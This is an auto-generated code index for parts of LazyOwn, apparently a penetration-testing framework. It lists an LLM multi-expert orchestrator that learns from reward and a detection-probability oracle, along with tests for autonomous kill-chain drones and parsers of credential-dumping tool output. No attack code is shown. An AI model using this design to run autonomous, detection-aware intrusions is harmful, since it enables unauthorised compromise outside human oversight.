**File Doc:** *skills/swan_agent.py — LazyOwn SWAN Agent ========================================== Scalable Weighted Adaptive Network agent coordinator.  SWAN unifies the Mixture-of-Experts router, the RL trainer, and the existing Groq/Ollama agent infrastructure (GroqAgentPool + LLMBridge) into a single self-improving multi-model execution layer.  Properties ---------- Scalable   — new expert models added to moe_router._DEFAULT_EXPERTS list only Weighted   — each expert's routing probability is weighted by RL-learned Q-values and EMA performance scores from completed engagements Adaptive   — weights update automatically after every task execution via Q-learning Network    — ensemble mode runs multiple experts in parallel and synthesizes results  Architecture ------------  operator prompt / autonomous loop | SwanOrchestrator.run() /          \\ route()               ensemble() |                      | best expert           top-N experts |               (parallel threads) DroneAgent / LLMBridge    |*

**Classes:**
- `SwanResult` (line 146) `class SwanResult` - *Result from a single-expert SWAN execution.*
- `ExpertVote` (line 172) `class ExpertVote` - *One expert's contribution to an ensemble.*
- `EnsembleResult` (line 183) `class EnsembleResult` - *Aggregated result from multiple experts.*
- `IResultAggregator` (line 205) `class IResultAggregator(ABC)` - *Contract for combining multiple expert outputs into one synthesis.*
- `ISwanOrchestrator` (line 222) `class ISwanOrchestrator(ABC)` - *Top-level SWAN orchestrator contract.*
- `WeightedTextAggregator` (line 252) `class WeightedTextAggregator(IResultAggregator)` - *Aggregates expert outputs by building a weighted synthesis prompt and
invoking the highest-weight expert as the synthesizer.

When only one expert succeeded, returns its output directly.
When multiple experts succeeded, prompts the synthesizer to combine them.

Consensus confidence is approximated as the fraction of experts that
completed successfully (not failed or timed out).*
- `ExpertExecutor` (line 332) `class ExpertExecutor` - *Runs a single expert (backend + model) for a given goal.

Uses the existing GroqAgentPool / LLMBridge infrastructure.
Supports both groq and ollama backends.*
- `OutcomeEvaluator` (line 464) `class OutcomeEvaluator` - *Evaluates the outcome of an expert execution:
- Determines reward via the policy engine reward table.
- Queries the detection oracle for detection probability.

Fails gracefully when optional modules are unavailable.*
- `SwanOrchestrator` (line 555) `class SwanOrchestrator(ISwanOrchestrator)` - *Scalable Weighted Adaptive Network orchestrator.

Coordinates MoERouter, RLTrainer, ExpertExecutor, OutcomeEvaluator,
and EnsembleAggregator into a unified self-improving execution layer.

After each execution:
  1. Evaluates the outcome (reward + detection probability).
  2. Updates the MoE router's performance store.
  3. Updates the RL trainer's Q-values.
  4. Stores a lesson in hive memory (if available).

Single Responsibility: orchestration only — delegates to specialists.
Dependency Inversion: all collaborators injected via constructor.*

**Functions:**
- `_import_router` (line 106) `def _import_router()`
- `_import_trainer` (line 112) `def _import_trainer()`
- `_import_detection_oracle` (line 118) `def _import_detection_oracle()`
- `_import_policy` (line 127) `def _import_policy()`
- `mcp_swan_run` (line 945) `def mcp_swan_run(task_type, goal, phase)` - *Route and execute a task with the best MoE+RL-selected expert.
Returns the expert's output as a string.*
- `mcp_swan_ensemble` (line 968) `def mcp_swan_ensemble(task_type, goal, n_experts, phase)` - *Run top-N experts in parallel and return a synthesized result.
Higher confidence = more expert agreement.*
- `mcp_swan_status` (line 996) `def mcp_swan_status()` - *Return SWAN system status: expert weights, RL epsilon, performance.*
- `mcp_swan_route` (line 1003) `def mcp_swan_route(task_type, goal)` - *Show which expert would be selected for a task without executing.*
- `get_swan` (line 1039) `def get_swan(api_key)` - *Return (or create) the module-level singleton SwanOrchestrator.*

**Methods:**
- `is_success` (line 167) `def is_success(self)`
- `aggregate` (line 209) `def aggregate(self, task_type, goal, votes)` - *Return (synthesis_text, consensus_confidence).

consensus_confidence is in [0.0, 1.0] — higher means experts agree more.*
- `run` (line 226) `def run(self, task_type, goal, engagement_phase, timeout)` - *Execute with the best single expert and return result.*
- `ensemble_run` (line 236) `def ensemble_run(self, task_type, goal, n_experts, engagement_phase, timeout)` - *Execute with top-N experts in parallel and synthesize results.*
- `aggregate` (line 264) `def aggregate(self, task_type, goal, votes)`
- `_build_synthesis` (line 284) `def _build_synthesis(task_type, goal, experts)`
- `execute` (line 351) `def execute(self, expert_id, backend, model, goal, task_type, timeout, api_key)` - *Run the expert and return a SwanResult.*
- `_invoke` (line 394) `def _invoke(self, backend, model, goal, task_type, api_key, timeout)`
- `_tools_for_task` (line 417) `def _tools_for_task(task_type)`
- `_load_payload_key` (line 452) `def _load_payload_key()`
- `evaluate` (line 479) `def evaluate(self, result, task_type)` - *Return (reward, detection_prob).

reward:         scalar reward for RL update
detection_prob: detection probability from oracle*
- `_base_reward` (line 508) `def _base_reward(self, status, task_type)`
- `_content_boost` (line 516) `def _content_boost(output, base_reward)` - *Boost reward when output contains high-value security findings.

Args:
    output:      Expert's raw output text.
    base_reward: Reward computed from status + task_type.

Returns:
    Boosted reward, always >= base_reward.*
- `_detection_prob` (line 540) `def _detection_prob(goal, task_type)`
- `__init__` (line 572) `def __init__(self, executor, evaluator, aggregator, api_key)`
- `run` (line 592) `def run(self, task_type, goal, engagement_phase, timeout)` - *Execute the task with the best single expert selected by the MoE+RL router.

1. Encodes current state for RL.
2. Retrieves expert candidates from MoE router.
3. Selects expert via RL epsilon-greedy policy.
4. Executes the expert.
5. Evaluates outcome and updates RL + performance store.
6. Returns SwanResult.*
- `ensemble_run` (line 680) `def ensemble_run(self, task_type, goal, n_experts, engagement_phase, timeout)` - *Execute with top-N experts in parallel and synthesize results.

All experts receive the same goal concurrently. The aggregator then
produces a synthesis combining their outputs with confidence weighting.*
- `status` (line 763) `def status(self)` - *Return a diagnostic snapshot of the SWAN system.*
- `_parallel_execute` (line 778) `def _parallel_execute(self, experts, goal, task_type, timeout)`
- `_post_execution_update` (line 827) `def _post_execution_update(self, expert_id, task_type, reward, detection_prob, state_key, next_state, candidate_ids, result)` - *Update MoE performance store, RL Q-table, and hive memory.*
- `_store_to_hive` (line 860) `def _store_to_hive(self, result, reward, detection_prob)`
- `_next_task_type` (line 893) `def _next_task_type(task_type)` - *Simple kill-chain progression for next-state encoding.*
- `_get_router` (line 908) `def _get_router(self)`
- `_get_trainer` (line 914) `def _get_trainer(self)`
- `_get_hive_memory` (line 919) `def _get_hive_memory(self)`
- `_load_key` (line 930) `def _load_key()`

#### `__init__.py`
**Path:** `skills/tests/__init__.py`

*No symbols extracted*

#### `test_autonomous_daemon.py`
**Path:** `skills/tests/test_autonomous_daemon.py`
**File Doc:** *skills/tests/test_autonomous_daemon.py — Tests for autonomous_daemon.py (SOLID refactoring)  All tests use tmp_path or tempfile.TemporaryDirectory for isolation. No real subprocess calls (mock _run_lazyown). No external API calls.*

**Classes:**
- `TestPTYCommandRunner` (line 59) `class TestPTYCommandRunner` - *Tests for PTYCommandRunner.*
- `TestMCPCommandRunner` (line 88) `class TestMCPCommandRunner` - *Tests for MCPCommandRunner.*
- `TestCommandRunnerChain` (line 134) `class TestCommandRunnerChain` - *Tests for CommandRunnerChain (Chain of Responsibility).*
- `TestFallbackSelector` (line 205) `class TestFallbackSelector` - *Tests for FallbackSelector — always returns a CommandDecision.*
- `TestParquetSelector` (line 248) `class TestParquetSelector` - *Tests for ParquetSelector.*
- `TestCascadeStrategy` (line 296) `class TestCascadeStrategy` - *Tests for CascadeStrategy.*
- `TestInjectToTasksJson` (line 360) `class TestInjectToTasksJson` - *Tests for _inject_to_tasks_json.*
- `TestUpdateTaskStatus` (line 437) `class TestUpdateTaskStatus` - *Tests for _update_task_status.*
- `TestEmitEvent` (line 486) `class TestEmitEvent` - *Tests for _emit.*
- `TestMCPAutonomousInject` (line 537) `class TestMCPAutonomousInject` - *Tests for mcp_autonomous_inject.*
- `TestMCPAutonomousStatus` (line 610) `class TestMCPAutonomousStatus` - *Tests for mcp_autonomous_status.*
- `TestObjectiveLoopUnit` (line 666) `class TestObjectiveLoopUnit` - *Unit tests for objective_loop logic with ObjectiveStore fully mocked.
Verifies that _run_objective is called, complete() is called,
and task status is updated to Done.*
- `_R` (line 140) `class _R(ICommandRunner)`
- `_S` (line 303) `class _S(ICommandSelector)`
- `CapturingSelector` (line 343) `class CapturingSelector(ICommandSelector)`

**Functions:**
- `_patch_paths` (line 32) `def _patch_paths(tmp_path)` - *Context manager that redirects all file paths to tmp_path.*
- `_stop_patchers` (line 49) `def _stop_patchers(patchers)`
- `_next_pending` (line 706) `def _next_pending()`
- `_fake_run_async` (line 721) `def _fake_run_async(objective_id, objective_text, target)`
- `_run_loop` (line 745) `def _run_loop()`
- `_next_pending` (line 772) `def _next_pending()`
- `_failing_run_async` (line 784) `def _failing_run_async(objective_id, objective_text, target)`
- `_run_loop` (line 807) `def _run_loop()`
- `_run_loop` (line 831) `def _run_loop()`

**Methods:**
- `test_instantiation` (line 62) `def test_instantiation(self)` - *PTYCommandRunner can be instantiated.*
- `test_name_property` (line 69) `def test_name_property(self)` - *name property returns 'pty'.*
- `test_implements_icommand_runner` (line 76) `def test_implements_icommand_runner(self)` - *PTYCommandRunner is a subclass of ICommandRunner.*
- `test_instantiation` (line 91) `def test_instantiation(self)` - *MCPCommandRunner can be instantiated.*
- `test_name_property` (line 98) `def test_name_property(self)` - *name property returns 'mcp'.*
- `test_raises_when_import_fails` (line 105) `def test_raises_when_import_fails(self)` - *run() raises ImportError when lazyown_mcp is not importable.*
- `test_delegates_to_mcp_when_available` (line 114) `def test_delegates_to_mcp_when_available(self)` - *run() delegates to _run_lazyown_command when import succeeds.*
- `_make_runner` (line 137) `def _make_runner(self, name, result, raises)`
- `test_uses_first_runner_when_successful` (line 152) `def test_uses_first_runner_when_successful(self)` - *Chain returns result from first runner when it succeeds.*
- `test_falls_back_to_second_on_exception` (line 162) `def test_falls_back_to_second_on_exception(self)` - *Chain uses second runner when first raises.*
- `test_raises_when_all_fail` (line 172) `def test_raises_when_all_fail(self)` - *Chain raises RuntimeError when all runners fail.*
- `test_name_reflects_all_runners` (line 182) `def test_name_reflects_all_runners(self)` - *name property lists all runner names.*
- `test_requires_at_least_one_runner` (line 192) `def test_requires_at_least_one_runner(self)` - *Instantiation with empty list raises ValueError.*
- `test_always_returns_decision` (line 208) `def test_always_returns_decision(self)` - *select() never returns None.*
- `test_returns_command_decision_type` (line 216) `def test_returns_command_decision_type(self)` - *select() returns a CommandDecision instance.*
- `test_source_is_fallback` (line 225) `def test_source_is_fallback(self)` - *source field is 'fallback'.*
- `test_unknown_phase_returns_decision` (line 233) `def test_unknown_phase_returns_decision(self)` - *Even an unknown phase returns a CommandDecision.*
- `test_returns_none_when_pdb_unavailable` (line 251) `def test_returns_none_when_pdb_unavailable(self)` - *When pdb is None, select() returns None.*
- `test_returns_candidate_when_pdb_has_history` (line 259) `def test_returns_candidate_when_pdb_has_history(self)` - *When pdb returns session rows, select() returns a CommandDecision.*
- `test_respects_fail_counts` (line 275) `def test_respects_fail_counts(self)` - *Commands that have hit the fail threshold are skipped.*
- `_make_selector` (line 299) `def _make_selector(self, returns)` - *Build a mock ICommandSelector that returns `returns` from select().*
- `test_returns_first_non_none_result` (line 309) `def test_returns_first_non_none_result(self)` - *CascadeStrategy returns the first selector that gives a result.*
- `test_uses_fallback_when_all_none` (line 325) `def test_uses_fallback_when_all_none(self)` - *CascadeStrategy uses FallbackSelector when all others return None.*
- `test_passes_context_to_selectors` (line 337) `def test_passes_context_to_selectors(self)` - *CascadeStrategy passes the context dict to selectors.*
- `setup_method` (line 363) `def setup_method(self)`
- `teardown_method` (line 369) `def teardown_method(self)`
- `test_creates_file_if_missing` (line 373) `def test_creates_file_if_missing(self)` - *Creates tasks.json when it does not exist.*
- `test_appends_new_task` (line 382) `def test_appends_new_task(self)` - *Each call appends a new task to tasks.json.*
- `test_correct_schema` (line 394) `def test_correct_schema(self)` - *Injected task has all required keys: id, title, description, operator, status.*
- `test_returns_assigned_id` (line 412) `def test_returns_assigned_id(self)` - *Return value is the integer id assigned to the new task.*
- `test_handles_existing_invalid_json` (line 421) `def test_handles_existing_invalid_json(self)` - *Recovers gracefully when tasks.json contains invalid JSON.*
- `setup_method` (line 440) `def setup_method(self)`
- `teardown_method` (line 446) `def teardown_method(self)`
- `_write_tasks` (line 450) `def _write_tasks(self, tasks)`
- `test_updates_existing_task` (line 455) `def test_updates_existing_task(self)` - *_update_task_status changes the status of a matching task.*
- `test_ignores_missing_title` (line 465) `def test_ignores_missing_title(self)` - *_update_task_status returns False when title not found.*
- `test_returns_false_when_file_missing` (line 473) `def test_returns_false_when_file_missing(self)` - *_update_task_status returns False when tasks.json does not exist.*
- `setup_method` (line 489) `def setup_method(self)`
- `teardown_method` (line 495) `def teardown_method(self)`
- `test_writes_valid_json_line` (line 499) `def test_writes_valid_json_line(self)` - *_emit writes a valid JSON object to EVENTS_FILE.*
- `test_event_has_required_fields` (line 511) `def test_event_has_required_fields(self)` - *Each emitted event has id, ts, type, severity, payload.*
- `test_multiple_emits_append_lines` (line 521) `def test_multiple_emits_append_lines(self)` - *Multiple _emit calls each produce a separate JSON line.*
- `setup_method` (line 540) `def setup_method(self)`
- `teardown_method` (line 546) `def teardown_method(self)`
- `_make_mock_store` (line 550) `def _make_mock_store(self)` - *Build a mock ObjectiveStore that returns a mock objective.*
- `test_injects_to_objective_store_and_tasks_json` (line 562) `def test_injects_to_objective_store_and_tasks_json(self)` - *mcp_autonomous_inject writes to both ObjectiveStore and tasks.json.*
- `test_returns_json_with_both_ids` (line 581) `def test_returns_json_with_both_ids(self)` - *Return value contains both objective id and task_id.*
- `test_returns_error_string_when_store_unavailable` (line 596) `def test_returns_error_string_when_store_unavailable(self)` - *mcp_autonomous_inject returns error message when ObjectiveStore is None.*
- `setup_method` (line 613) `def setup_method(self)`
- `teardown_method` (line 619) `def teardown_method(self)`
- `test_returns_valid_json` (line 623) `def test_returns_valid_json(self)` - *mcp_autonomous_status() returns parseable JSON.*
- `test_contains_expected_fields` (line 631) `def test_contains_expected_fields(self)` - *Status JSON contains 'running', 'objectives_done', 'steps_run'.*
- `test_running_is_false_when_no_daemon` (line 641) `def test_running_is_false_when_no_daemon(self)` - *'running' is False when no daemon thread is active.*
- `test_merges_status_file_when_present` (line 650) `def test_merges_status_file_when_present(self)` - *Status is enriched from STATUS_FILE when it exists.*
- `setup_method` (line 673) `def setup_method(self)`
- `teardown_method` (line 679) `def teardown_method(self)`
- `_make_mock_objective` (line 683) `def _make_mock_objective(self)`
- `test_complete_called_after_successful_execution` (line 692) `def test_complete_called_after_successful_execution(self)` - *When next_pending() returns one objective and _run_objective succeeds,
store.complete() is called and task status is updated to Done.*
- `test_block_called_on_execution_failure` (line 760) `def test_block_called_on_execution_failure(self)` - *When run_async raises an exception, store.block() is called and
task status is updated to Blocked.*
- `test_loop_disabled_when_objective_store_missing` (line 821) `def test_loop_disabled_when_objective_store_missing(self)` - *objective_loop exits immediately when _ObjectiveStore is None.*
- `name` (line 142) `def name(self)`
- `run` (line 145) `def run(self, command, timeout)`
- `select` (line 304) `def select(self, target, phase, context)`
- `select` (line 344) `def select(self, target, phase, context)`

#### `test_facts.py`
**Path:** `skills/tests/test_facts.py`
**File Doc:** *Tests for lazyown_facts.py — parsers and FactStore.  All file I/O uses tmp_path (pytest) or tempfile.TemporaryDirectory. No writes to the real sessions/ directory.*

**Classes:**
- `TestCrackMapExecParser` (line 61) `class TestCrackMapExecParser`
- `TestEnum4linuxParser` (line 81) `class TestEnum4linuxParser`
- `TestSecretsdumpParser` (line 105) `class TestSecretsdumpParser`
- `TestKerbruteParser` (line 119) `class TestKerbruteParser`
- `TestRpcclientParser` (line 138) `class TestRpcclientParser`
- `TestGobusterParser` (line 149) `class TestGobusterParser`
- `TestNiktoParser` (line 176) `class TestNiktoParser`
- `TestNucleiParser` (line 196) `class TestNucleiParser`
- `TestSslscanParser` (line 218) `class TestSslscanParser`
- `TestNmapXmlParser` (line 246) `class TestNmapXmlParser`
- `TestFactStore` (line 300) `class TestFactStore`

**Functions:**
- `_make_config` (line 42) `def _make_config(tmp_path)` - *Return a Config pointing entirely at tmp_path.*

**Methods:**
- `test_crackmapexec_parser` (line 62) `def test_crackmapexec_parser(self)` - *CME output with [+] credential line → extracts CredentialFact.*
- `test_crackmapexec_pwned` (line 73) `def test_crackmapexec_pwned(self)` - *Pwn3d! in CME output → AccessFact with level=admin.*
- `test_enum4linux_parser` (line 82) `def test_enum4linux_parser(self)` - *enum4linux user + share line → extracts CredentialFact and ShareFact.*
- `test_enum4linux_access_when_results` (line 97) `def test_enum4linux_access_when_results(self)` - *enum4linux that finds data → AccessFact with level=read.*
- `test_secretsdump_parser` (line 106) `def test_secretsdump_parser(self)` - *NTLM hash line → CredentialFact with hash_type=NTLM.*
- `test_kerbrute_parser` (line 120) `def test_kerbrute_parser(self)` - *VALID USERNAME line → CredentialFact.*
- `test_kerbrute_multiple_users` (line 129) `def test_kerbrute_multiple_users(self)`
- `test_rpcclient_parser` (line 139) `def test_rpcclient_parser(self)` - *user:[Administrator] rid:[0x1f4] → CredentialFact.*
- `test_gobuster_parser_parse_extended` (line 150) `def test_gobuster_parser_parse_extended(self)` - */admin (Status: 200) [Size: 1234] → DiscoveredPath.*
- `test_gobuster_multiple_paths` (line 162) `def test_gobuster_multiple_paths(self)`
- `test_nikto_parser_parse_extended` (line 177) `def test_nikto_parser_parse_extended(self)` - *OSVDB nikto line → VulnerabilityFact with severity=medium.*
- `test_nikto_cve_line` (line 189) `def test_nikto_cve_line(self)`
- `test_nuclei_parser_parse_extended` (line 197) `def test_nuclei_parser_parse_extended(self)` - *[critical] [CVE-2021-41773] [http] http://host/ → VulnerabilityFact.*
- `test_nuclei_multiple_severities` (line 209) `def test_nuclei_multiple_severities(self)`
- `test_sslscan_parser_parse_extended` (line 219) `def test_sslscan_parser_parse_extended(self)` - *TLSv1.0 enabled → VulnerabilityFact with severity=medium.*
- `test_sslscan_dedup` (line 231) `def test_sslscan_dedup(self)` - *Same protocol appearing twice in output → only one VulnerabilityFact.*
- `test_nmap_xml_parse` (line 270) `def test_nmap_xml_parse(self, tmp_path)` - *Minimal nmap XML string → ServiceFact objects (only open ports).*
- `test_nmap_xml_parse_invalid` (line 286) `def test_nmap_xml_parse_invalid(self, tmp_path)` - *Malformed XML → empty list (no crash).*
- `test_factstore_dedup` (line 301) `def test_factstore_dedup(self, tmp_path)` - *Injecting the same ServiceFact twice → only one entry stored.*
- `test_context_for_command` (line 322) `def test_context_for_command(self, tmp_path)` - *Add service + cred facts, context_for_command('enum') returns port and username.*
- `test_context_for_unknown_host` (line 356) `def test_context_for_unknown_host(self, tmp_path)` - *context_for_command on unknown host → empty dict.*
- `test_factstore_save_and_reload` (line 363) `def test_factstore_save_and_reload(self, tmp_path)` - *Save facts to JSON then reload them correctly.*
- `test_ingest_xml` (line 390) `def test_ingest_xml(self, tmp_path)` - *ingest_xml with valid file → service facts stored per-host.*
- `test_ingest_text_crackmapexec` (line 416) `def test_ingest_text_crackmapexec(self, tmp_path)` - *ingest_text with CME output → credential stored for guessed host IP.*
- `test_dedup_creds` (line 429) `def test_dedup_creds(self, tmp_path)` - *Injecting same CredentialFact twice → only one stored after dedup.*

#### `test_harness_e2e.py`
**Path:** `skills/tests/test_harness_e2e.py`
**File Doc:** *End-to-end test for the Claude Code-style harness layer.  Exercises all 7 systems in concert: 1. PermissionSystem (deny-first rules) 2. ContextCompactor (5-layer pipeline) 3. SessionTranscript (append-only JSONL with fork) 4. HookRegistry (sandbox/rate-limit/timing/audit) 5. ClaudeMdLoader (4-level hierarchy) 6. Auto-compact trigger 7. Defense-in-depth metrics  Run: python3 skills/tests/test_harness_e2e.py*

**Functions:**
- `check` (line 33) `def check(label, cond, hint)`
- `test_permissions` (line 47) `def test_permissions(tmp)`
- `test_compaction` (line 98) `def test_compaction()`
- `test_transcript` (line 143) `def test_transcript(tmp)`
- `test_hooks` (line 182) `def test_hooks(tmp)`
- `test_claudemd` (line 228) `def test_claudemd(tmp)`
- `test_auto_compact` (line 263) `def test_auto_compact(tmp)`
- `test_metrics` (line 300) `def test_metrics(tmp)`
- `test_integration` (line 332) `def test_integration(tmp)`
- `main` (line 391) `def main()`

#### `test_hive_mind.py`
**Path:** `skills/tests/test_hive_mind.py`
**File Doc:** *skills/tests/test_hive_mind.py — Tests for hive_mind.py (SOLID refactoring)  All file I/O uses tmp_path (pytest) or tempfile.TemporaryDirectory. No external API calls. ChromaDB is mocked when not installed.*

**Classes:**
- `TestEpisodicStore` (line 72) `class TestEpisodicStore` - *Unit tests for EpisodicStore (SQLite FTS5).*
- `TestSemanticStore` (line 152) `class TestSemanticStore` - *Unit tests for SemanticStore (ChromaDB, with fallback to episodic).*
- `TestHiveMemory` (line 226) `class TestHiveMemory` - *Unit tests for HiveMemory (composition + deduplication).*
- `TestHiveBus` (line 293) `class TestHiveBus` - *Unit tests for HiveBus (message passing).*
- `TestDronePool` (line 346) `class TestDronePool` - *Unit tests for DronePool (thread management).*
- `TestQueenBrain` (line 428) `class TestQueenBrain` - *Unit tests for QueenBrain (orchestration).*
- `TestHiveMind` (line 509) `class TestHiveMind` - *Integration tests for HiveMind (spawn + recall after store).*
- `TestMCPHandlers` (line 575) `class TestMCPHandlers` - *Tests for MCP tool handler functions.*
- `TestDroneStateStore` (line 673) `class TestDroneStateStore` - *Unit tests for DroneStateStore (drone persistence across restarts).*
- `TestDronePoolWithPersistence` (line 770) `class TestDronePoolWithPersistence` - *Tests for DronePool persistence: spawn persists, recover_from_store works.*

**Functions:**
- `_make_episodic` (line 32) `def _make_episodic(tmp_path)` - *Return a fresh EpisodicStore backed by tmp_path.*
- `_make_semantic` (line 39) `def _make_semantic(tmp_path, episodic)` - *Return a fresh SemanticStore (ChromaDB mocked or real if available).*
- `_make_hive_memory` (line 49) `def _make_hive_memory(tmp_path)` - *Return a HiveMemory with real EpisodicStore and mocked SemanticStore.*
- `_instant_run` (line 405) `def _instant_run(self_inner)`

**Methods:**
- `setup_method` (line 75) `def setup_method(self)`
- `teardown_method` (line 79) `def teardown_method(self)`
- `test_store_returns_nonempty_id` (line 82) `def test_store_returns_nonempty_id(self)` - *store() should return a non-empty string event_id.*
- `test_recall_keyword_found` (line 89) `def test_recall_keyword_found(self)` - *Stored content can be retrieved by keyword.*
- `test_recall_keyword_not_found` (line 97) `def test_recall_keyword_not_found(self)` - *Recall with an unrelated keyword returns empty list.*
- `test_recall_fts_multiple_hits` (line 104) `def test_recall_fts_multiple_hits(self)` - *Multiple stored entries with the same keyword are all returned.*
- `test_stats_counts_rows` (line 112) `def test_stats_counts_rows(self)` - *stats() returns correct episodic_events count.*
- `test_forget_old_events` (line 121) `def test_forget_old_events(self)` - *forget() removes rows older than the cutoff.*
- `test_forget_by_topic` (line 132) `def test_forget_by_topic(self)` - *forget(topic=X) only removes rows whose content contains X.*
- `setup_method` (line 155) `def setup_method(self)`
- `teardown_method` (line 159) `def teardown_method(self)`
- `test_instantiation` (line 162) `def test_instantiation(self)` - *SemanticStore can be instantiated regardless of ChromaDB availability.*
- `test_store_returns_id` (line 169) `def test_store_returns_id(self)` - *store() returns a non-empty string.*
- `test_fallback_to_episodic_when_chroma_unavailable` (line 179) `def test_fallback_to_episodic_when_chroma_unavailable(self)` - *When ChromaDB collection is None, recall() delegates to episodic store.*
- `test_recall_with_mock_chroma` (line 192) `def test_recall_with_mock_chroma(self)` - *When ChromaDB is mocked, recall() returns parsed results.*
- `test_count_returns_zero_when_unavailable` (line 212) `def test_count_returns_zero_when_unavailable(self)` - *count() returns 0 when collection is None.*
- `setup_method` (line 229) `def setup_method(self)`
- `teardown_method` (line 233) `def teardown_method(self)`
- `test_store_and_recall` (line 236) `def test_store_and_recall(self)` - *store() followed by recall() returns the stored content.*
- `test_recall_deduplication` (line 244) `def test_recall_deduplication(self)` - *The same content stored twice appears only once in unified recall.*
- `test_stats_contains_expected_keys` (line 269) `def test_stats_contains_expected_keys(self)` - *stats() returns dict with episodic_events and chroma_vectors.*
- `test_forget_delegates_to_episodic` (line 277) `def test_forget_delegates_to_episodic(self)` - *forget() removes episodic entries older than cutoff.*
- `setup_method` (line 296) `def setup_method(self)`
- `test_publish_and_receive` (line 301) `def test_publish_and_receive(self)` - *Published message arrives in recipient's mailbox.*
- `test_broadcast_received_by_everyone` (line 312) `def test_broadcast_received_by_everyone(self)` - *Broadcast message (recipient='*') is included in any agent's receive().*
- `test_pending_count_after_publish` (line 321) `def test_pending_count_after_publish(self)` - *pending_count() reflects queued messages.*
- `test_receive_drains_direct_mailbox` (line 329) `def test_receive_drains_direct_mailbox(self)` - *After receive(), direct messages are removed from the mailbox.*
- `setup_method` (line 349) `def setup_method(self)`
- `teardown_method` (line 353) `def teardown_method(self)`
- `_make_pool` (line 356) `def _make_pool(self)`
- `test_spawn_returns_drone_id` (line 365) `def test_spawn_returns_drone_id(self)` - *spawn() returns a non-empty string drone_id.*
- `test_get_state_returns_drone_state` (line 374) `def test_get_state_returns_drone_state(self)` - *get_state() returns a DroneState for a known drone_id.*
- `test_get_state_unknown_id_returns_none` (line 386) `def test_get_state_unknown_id_returns_none(self)` - *get_state() returns None for an unknown drone_id.*
- `test_list_all_includes_spawned_drone` (line 392) `def test_list_all_includes_spawned_drone(self)` - *list_all() includes the just-spawned drone.*
- `test_active_count_decrements_when_done` (line 401) `def test_active_count_decrements_when_done(self)` - *active_count() drops to 0 after the drone completes.*
- `setup_method` (line 431) `def setup_method(self)`
- `teardown_method` (line 435) `def teardown_method(self)`
- `_make_queen` (line 438) `def _make_queen(self)`
- `test_plan_enum_returns_multiple_tasks` (line 446) `def test_plan_enum_returns_multiple_tasks(self)` - *plan() for an enum goal returns >= 2 tasks.*
- `test_plan_exploit_goal` (line 454) `def test_plan_exploit_goal(self)` - *plan() for an exploit goal includes an exploit role.*
- `test_plan_ad_goal` (line 461) `def test_plan_ad_goal(self)` - *plan() for Active Directory goal includes lateral role.*
- `test_plan_generic_goal` (line 468) `def test_plan_generic_goal(self)` - *plan() for a generic goal returns tasks.*
- `test_plan_n_drones_pads_to_requested` (line 474) `def test_plan_n_drones_pads_to_requested(self)` - *plan() with n_drones > template pads to the requested count.*
- `test_dispatch_returns_drone_ids` (line 480) `def test_dispatch_returns_drone_ids(self)` - *dispatch() spawns drones and returns their IDs.*
- `test_synthesize_structure` (line 489) `def test_synthesize_structure(self)` - *synthesize() returns a string with expected headings.*
- `setup_method` (line 512) `def setup_method(self)`
- `teardown_method` (line 516) `def teardown_method(self)`
- `_make_hive` (line 519) `def _make_hive(self)` - *Build a fresh HiveMind with isolated storage.*
- `test_spawn_single_drone` (line 534) `def test_spawn_single_drone(self)` - *spawn() creates a drone and returns its id.*
- `test_recall_from_memory_after_store` (line 542) `def test_recall_from_memory_after_store(self)` - *Storing data in memory makes it retrievable via hive.recall().*
- `test_status_contains_expected_fields` (line 549) `def test_status_contains_expected_fields(self)` - *status() dict contains 'active_drones', 'memory', 'queen_mailbox'.*
- `test_drone_result_unknown_id` (line 557) `def test_drone_result_unknown_id(self)` - *drone_result() for unknown id returns dict with 'error' key.*
- `test_forget_returns_int` (line 563) `def test_forget_returns_int(self)` - *forget() returns an integer (count of pruned entries).*
- `setup_method` (line 578) `def setup_method(self)`
- `teardown_method` (line 584) `def teardown_method(self)`
- `_build_hive_and_patch` (line 588) `def _build_hive_and_patch(self)`
- `test_mcp_hive_plan_returns_parseable_string` (line 610) `def test_mcp_hive_plan_returns_parseable_string(self)` - *mcp_hive_plan() returns a string (text format, not JSON).*
- `test_mcp_hive_status_contains_fields` (line 619) `def test_mcp_hive_status_contains_fields(self)` - *mcp_hive_status() returns valid JSON with expected keys.*
- `test_mcp_hive_recall_no_results` (line 629) `def test_mcp_hive_recall_no_results(self)` - *mcp_hive_recall() returns a no-results string when memory is empty.*
- `test_mcp_hive_forget_returns_pruned_count` (line 636) `def test_mcp_hive_forget_returns_pruned_count(self)` - *mcp_hive_forget() returns a message with 'Pruned' in it.*
- `test_mcp_hive_spawn_single` (line 643) `def test_mcp_hive_spawn_single(self)` - *mcp_hive_spawn() for n_drones=1 returns JSON with drone_id.*
- `test_mcp_hive_result_unknown_drone` (line 652) `def test_mcp_hive_result_unknown_drone(self)` - *mcp_hive_result() for unknown drone returns JSON with error key.*
- `test_mcp_hive_collect_no_ids` (line 660) `def test_mcp_hive_collect_no_ids(self)` - *mcp_hive_collect() with empty csv returns helpful message.*
- `setup_method` (line 676) `def setup_method(self)`
- `teardown_method` (line 680) `def teardown_method(self)`
- `_make_store` (line 683) `def _make_store(self)`
- `_make_state` (line 688) `def _make_state(self, status)`
- `test_upsert_and_load_all` (line 700) `def test_upsert_and_load_all(self)` - *upsert() persists a DroneState; load_all() retrieves it.*
- `test_upsert_updates_existing` (line 709) `def test_upsert_updates_existing(self)` - *Calling upsert() twice with the same drone_id updates the record.*
- `test_mark_interrupted_targets_queued_and_running` (line 722) `def test_mark_interrupted_targets_queued_and_running(self)` - *mark_interrupted() sets queued/running -> interrupted; completed stays.*
- `test_load_interrupted_returns_only_interrupted` (line 737) `def test_load_interrupted_returns_only_interrupted(self)` - *load_interrupted() returns only drones with status='interrupted'.*
- `test_delete_older_than_removes_stale` (line 750) `def test_delete_older_than_removes_stale(self)` - *delete_older_than(0) removes all records.*
- `test_load_all_empty_db` (line 759) `def test_load_all_empty_db(self)` - *load_all() on a fresh store returns an empty list.*
- `setup_method` (line 773) `def setup_method(self)`
- `teardown_method` (line 777) `def teardown_method(self)`
- `_make_pool_with_store` (line 780) `def _make_pool_with_store(self)`
- `test_spawn_persists_initial_state` (line 789) `def test_spawn_persists_initial_state(self)` - *spawn() writes the initial 'queued' state to DroneStateStore.*
- `test_recover_from_store_marks_interrupted` (line 798) `def test_recover_from_store_marks_interrupted(self)` - *recover_from_store() marks in-flight drones as interrupted.*
- `test_requeue_interrupted_respawns_drones` (line 825) `def test_requeue_interrupted_respawns_drones(self)` - *requeue_interrupted() re-spawns all interrupted drones.*
